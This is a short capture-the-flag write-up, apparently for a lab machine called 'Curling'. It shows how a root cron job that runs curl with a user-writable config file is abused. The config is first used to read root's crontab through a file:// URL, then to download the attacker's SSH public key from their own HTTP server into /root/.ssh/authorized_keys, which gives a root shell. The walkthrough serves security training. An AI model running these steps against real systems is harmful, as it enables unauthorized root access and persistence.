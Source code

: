 - To see what it is doing in the backend, we can change the URL as

```
URL='file:///var/run/cron/crontabs/root'
```

- After a while, examining the report file we see

```
...
* * * * * curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```

- It seems that it is using curl to get what in the URL parameter and writing the result on `report`
- To get a root shell on the remote machine we can

1. On the local machine, generate an SSH keypair `root` and `root.pub`
2. Run a python http server in the same folder as the keys
3. On the remote machine modify `input` as

```
URL=http://{MyIP}:8000/root.pub
output="/root/.ssh/authorized_keys"
```

4. Using SSH to log as the root using the created private key

```bash
$ ssh root@{IP} -i root
...
root@curling:/root/ whoami
root
```

- At this point we have obtain a shell as root and we can do whatever we want